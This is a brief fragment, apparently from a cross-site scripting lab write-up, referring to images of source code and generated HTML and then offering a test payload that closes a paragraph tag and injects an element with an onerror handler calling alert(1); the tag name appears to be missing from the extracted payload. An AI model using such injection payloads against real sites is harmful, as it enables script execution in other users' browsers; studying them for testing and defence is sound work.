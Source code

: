 ![img](media/9c5ea1c01a563301fc81828e11bacacd.png)

It generates the following HTML code:

![img](media/c49bf7505bf483b09b3495cc34747b16.png)

We can try the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
</p>< src=x onerror=alert(1) /><p>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
